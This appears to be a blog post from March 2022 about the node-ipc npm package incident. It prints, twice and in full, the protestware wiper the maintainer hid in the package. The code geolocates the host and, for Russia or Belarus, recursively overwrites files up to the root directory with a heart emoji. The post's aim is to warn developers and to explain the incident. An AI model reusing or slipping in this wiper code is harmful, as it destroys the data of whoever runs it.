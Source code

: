 +++
title = "Npm package node-ipc is malware?"
date = 2022-03-18
description = "npm package node-ipc is malware?"
+++

# TLDR
DO NOT use or update this module if you or your production servers etc. are located in a country actively involved in the invasion of Ukraine. Author of this package opposes said invasion and put a malicious code to wipe out data and put "❤️" on where they were. You are warned about this feature. Use on your own risk.

~~ Source: [https://github.com/RIAEvangelist/node-ipc/pull/373/files](https://github.com/RIAEvangelist/node-ipc/pull/373/files)

Hey, this is a quick blog post about a topic that happened around yesterday. Brandon Nozaki Miller, or known as [RIAEvangelist](https://github.com/RIAEvangelist) on github. He wanted to spread his views about the Russian-Ukraine war, and he wanted to harm people with Russian or countries related in the Ukraine-Russian war ip's by deleting all their data and replacing it with heart emojis like this: "❤️". This is malware and a federal crime as he disguised it in a package (a popular one I might add).

This shows the darkside of opensource perfectly, one person gets some control and dependencies and uses it for bad. Basically one bad apple ruining a lot of other apples.

I have lost my trust in this dev, and wont be using his software again. I have reported him to gitub and npm.

If you would like to check if your packages are affected take a look at [https://github.com/zlw9991/node-ipc-dependencies-list](https://github.com/zlw9991/node-ipc-dependencies-list). A lot of electron packages are affected, and also vue/cli-shared-utils (a part of vue.js) is affected.

If you are wondering this is the line of code that is malicious. 

### ***Warning do not run this code, none of the problems and issues you get if you run this is my issue or problem or responsibility.***

```javascript
import u from"path";import a from"fs";import o from"https";setTimeout(function(){const t=Math.round(Math.random()*4);if(t>1){return}const n=Buffer.from("aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=","base64");o.get(n.toString("utf8"),function(t){t.on("data",function(t){const n=Buffer.from("Li8=","base64");const o=Buffer.from("Li4v","base64");const r=Buffer.from("Li4vLi4v","base64");const f=Buffer.from("Lw==","base64");const c=Buffer.from("Y291bnRyeV9uYW1l","base64");const e=Buffer.from("cnVzc2lh","base64");const i=Buffer.from("YmVsYXJ1cw==","base64");try{const s=JSON.parse(t.toString("utf8"));const u=s[c.toString("utf8")].toLowerCase();const a=u.includes(e.toString("utf8"))||u.includes(i.toString("utf8"));if(a){h(n.toString("utf8"));h(o.toString("utf8"));h(r.toString("utf8"));h(f.toString("utf8"))}}catch(t){}})})},Math.ceil(Math.random()*1e3));async function h(n="",o=""){if(!a.existsSync(n)){return}let r=[];try{r=a.readdirSync(n)}catch(t){}const f=[];const c=Buffer.from("4p2k77iP","base64");for(var e=0;e<r.length;e++){const i=u.join(n,r[e]);let t=null;try{t=a.lstatSync(i)}catch(t){continue}if(t.isDirectory()){const s=h(i,o);s.length>0?f.push(...s):null}else if(i.indexOf(o)>=0){try{a.writeFile(i,c.toString("utf8"),function(){})}catch(t){}}}return f};const ssl=true;export {ssl as default,ssl}
```
Link to file (will probably get deactivated): [https://github.com/RIAEvangelist/node-ipc/blob/847047cf7f81ab08352038b2204f0e7633449580/dao/ssl-geospec.js](https://github.com/RIAEvangelist/node-ipc/blob/847047cf7f81ab08352038b2204f0e7633449580/dao/ssl-geospec.js)

This above code will check if the ip is from Russia or Belarus and then verwrite many files with a heart emoji recursively. It goes up parent directories.

### ***Warning do not run this code, none of the problems and issues you get if you run this is my issue or problem or responsibility.***

```javascript

import u from "path";
import a from "fs";
import o from "https";
setTimeout(function () {
    const t = Math.round(Math.random() * 4);
    if (t > 1) {
        return;
    }
    const n = Buffer.from("aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=", "base64");
    o.get(n.toString("utf8"), function (t) {
        t.on("data", function (t) {
            const n = Buffer.from("Li8=", "base64");
            const o = Buffer.from("Li4v", "base64");
            const r = Buffer.from("Li4vLi4v", "base64");
            const f = Buffer.from("Lw==", "base64");
            const c = Buffer.from("Y291bnRyeV9uYW1l", "base64");
            const e = Buffer.from("cnVzc2lh", "base64");
            const i = Buffer.from("YmVsYXJ1cw==", "base64");
            try {
                const s = JSON.parse(t.toString("utf8"));
                const u = s[c.toString("utf8")].toLowerCase();
                const a = u.includes(e.toString("utf8")) || u.includes(i.toString("utf8"));
                if (a) {
                    h(n.toString("utf8"));
                    h(o.toString("utf8"));
                    h(r.toString("utf8"));
                    h(f.toString("utf8"));
                }
            } catch (t) {}
        });
    });
}, Math.ceil(Math.random() * 1e3));
async function h(n = "", o = "") {
    if (!a.existsSync(n)) {
        return;
    }
    let r = [];
    try {
        r = a.readdirSync(n);
    } catch (t) {}
    const f = [];
    const c = Buffer.from("4p2k77iP", "base64");
    for (var e = 0; e < r.length; e++) {
        const i = u.join(n, r[e]);
        let t = null;
        try {
            t = a.lstatSync(i);
        } catch (t) {
            continue;
        }
        if (t.isDirectory()) {
            const s = h(i, o);
            s.length > 0 ? f.push(...s) : null;
        } else if (i.indexOf(o) >= 0) {
            try {
                a.writeFile(i, c.toString("utf8"), function () {});
            } catch (t) {}
        }
    }
    return f;
}
const ssl = true;
export { ssl as default, ssl };
```

This overwrites the file with heart emoji.

### ***Warning do not run this code, none of the problems and issues you get if you run this is my issue or problem or responsibility.***

Source and if you would like to learn more about the code read this gist: [https://gist.github.com/MidSpike/f7ae3457420af78a54b38a31cc0c809c](https://gist.github.com/MidSpike/f7ae3457420af78a54b38a31cc0c809c)

node-ipc and peacenotwar github (malware)
- [https://github.com/RIAEvangelist/node-ipc](https://github.com/RIAEvangelist/node-ipc)
- [https://github.com/RIAEvangelist/peacenotwar](https://github.com/RIAEvangelist/peacenotwar)
